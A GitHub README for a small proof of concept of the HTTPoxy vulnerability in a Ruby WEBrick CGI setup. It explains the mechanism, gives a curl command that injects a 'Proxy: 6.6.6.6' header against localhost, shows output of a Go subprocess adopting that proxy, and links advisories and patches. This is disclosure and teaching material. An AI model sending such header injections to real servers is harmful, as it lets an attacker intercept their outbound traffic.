# Ruby HTTPoxy PoC

A somewhat contrived example of the [HTTPoxy](https://httpoxy.org/) vulnerability for a Ruby WEBrick server that is serving CGI scripts. Demonstrates:

* `WEBrick::HTTPRequest` prepends headers with "HTTP_" and `WEBrick::HTTPServlet::CGIHandler` lets the `HTTP_PROXY` header become an environment variable.
* Ruby `net/http` is not vulnerable as per [`URI::Generic#find_proxy`](http://ruby-doc.org/stdlib-2.3.1/libdoc/uri/rdoc/URI/Generic.html#method-i-find_proxy).
* *But* if the Ruby CGI script calls a system program that uses an affected HTTP client (e.g. Go `net/http`), the `HTTP_PROXY` environment variable will be respected and its value will be used for outbound HTTP requests. :(

## Quick Start:

```
$ ./server
$ curl -H "Proxy: 6.6.6.6" localhost:4000/ruby.cgi -v
```

### Observed Output

```
*   Trying ::1...
* Connected to localhost (::1) port 4000 (#0)
> GET /ruby.cgi HTTP/1.1
> Host: localhost:4000
> User-Agent: curl/7.43.0
> Accept: */*
> Proxy: 6.6.6.6
>
< HTTP/1.1 200 OK
< Content-Type: text/html
< Server: WEBrick/1.3.1 (Ruby/2.3.0/2015-12-25)
< Date: Tue, 02 Aug 2016 11:42:57 GMT
< Content-Length: 409
< Connection: Keep-Alive
<
HTTP_PROXY env:
ENV['HTTP_PROXY']  > 6.6.6.6

net/http proxy check:
NONE!

`./go-proxy-check` (system command):
In Go Land (using net/http)
Proxy: http://6.6.6.6
```

## Notes:
- [HTTPoxy.org](https://httpoxy.org/)
- [WEBrick::HTTPRequest](https://github.com/ruby/ruby/blob/978ee6d1ef62b36c143103f7a229bfb8bf0f99c6/lib/webrick/httprequest.rb#L402) setting metavariables as per defined in [RFC3875 section 4.1.18](https://tools.ietf.org/html/rfc3875#section-4.1.18)
- [Ruby WEBRick patch](https://github.com/ruby/ruby/commit/dafeebf12d4a930a99e5d3917ba070ebefefd23f)
- [Ruby Redmine Bug #12610](https://bugs.ruby-lang.org/issues/12610)
- [Go Lang `net/http` Path](https://github.com/golang/go/issues/16405)
- [Red Hat advisory](https://access.redhat.com/security/vulnerabilities/httpoxy)
- [Nginx blog post](https://www.nginx.com/blog/mitigating-the-httpoxy-vulnerability-with-nginx/)
- [Notes from Phusion Passenger](https://blog.phusion.nl/2016/07/21/web-applications-on-phusion-passenger-are-not-vulnerable-to-httpoxy/)

## To Do (perhaps):
* Dockerize
* Add Apache example?

## License

ruby-httpoxy is Copyright (c) 2016 Gordon Chan and is released under the MIT License. It is free software, and may be redistributed under the terms specified in the LICENSE file.
